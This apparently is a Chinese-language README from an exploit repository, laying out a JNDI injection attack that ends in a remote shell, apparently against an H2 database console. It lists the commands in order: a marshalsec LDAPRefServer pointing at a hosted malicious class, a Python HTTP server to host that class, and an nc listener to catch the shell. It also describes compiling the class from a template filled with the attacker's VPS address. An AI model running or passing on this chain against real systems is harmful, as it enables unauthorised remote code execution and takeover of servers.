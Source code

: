 漏洞利用的路径是访问恶意ladp服务器->通过转发到托管服务器的class->getshell

文件读写是从template文件夹下读取模板，对vps配置替换后写到resources再编译成class

1、运行恶意ladp，文件我放到resources了，可以直接使用

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/\#H2DataConsole 1389
```

2、运行resources托管服务器

```bash
python -m http.server 80
```

3、监听端口

```bash
# mac
nc -lvk 7777
#linux
nc -lvp 7777
```

![](./image/image-20240930112756401.png)

![](./image/image-20240930112417036.png)
